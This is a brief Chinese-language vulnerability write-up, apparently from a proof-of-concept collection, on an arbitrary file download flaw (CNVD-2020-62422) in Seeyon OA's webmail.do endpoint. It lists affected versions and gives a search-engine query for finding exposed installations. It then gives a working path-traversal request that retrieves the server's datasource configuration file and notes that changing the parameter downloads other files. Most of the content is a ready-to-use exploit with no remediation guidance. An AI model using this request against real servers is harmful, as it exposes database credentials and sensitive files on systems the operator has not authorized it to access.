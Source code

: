 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

```
致远OA A6-V5
致远OA A8-V5
致远OA G6
```

## 网络测绘

```
app="致远互联-OA"
```

## 漏洞复现

验证POC

```
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![image-20220520153850024](./images/202205201538060.png)

更改参数 filePath 可下载其他文件